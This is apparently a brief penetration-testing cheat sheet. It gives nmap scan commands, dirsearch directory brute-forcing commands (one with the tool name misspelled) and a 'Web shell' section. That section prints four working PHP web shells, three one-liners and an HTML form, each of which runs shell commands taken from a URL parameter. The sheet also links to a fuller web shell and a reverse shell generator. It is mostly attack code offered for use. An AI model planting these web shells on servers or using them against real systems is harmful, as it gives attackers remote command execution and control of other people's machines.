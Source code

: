 ###### Network Exploit

No Ping
```bash
nmap -Pn IPv4
```

Specific Port
```bash
nmap -p portNumber IPv4
```

Check Version
```bash
nmap -sV IPv4
```

Other Commands
```txt
https://www.stationx.net/nmap-cheat-sheet/
```

###### Directory Search

Normal Search
```bash
dirseach -u target
```

Recursion Search
```bash
dirsearch -u target -r
```

Wordlist Search
```bash
dirsearch -u target --wordlist=path
```

###### Web shell

```php
<?= exec($_GET["a"]);?>
```

```php
<?= system($_GET["a"]);?>
```

```php
<?=`$_GET[1]`;
```

```php
<html>
<body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
        <input type="TEXT" name="cmd" id="cmd" size="80">
        <input type="SUBMIT" value="Execute">
    </form>
    <pre>
        <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
    </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Super Web Shell
```txt
https://github.com/flozz/p0wny-shell
```

Reverse Shell Generator 
```txt
https://www.revshells.com
```


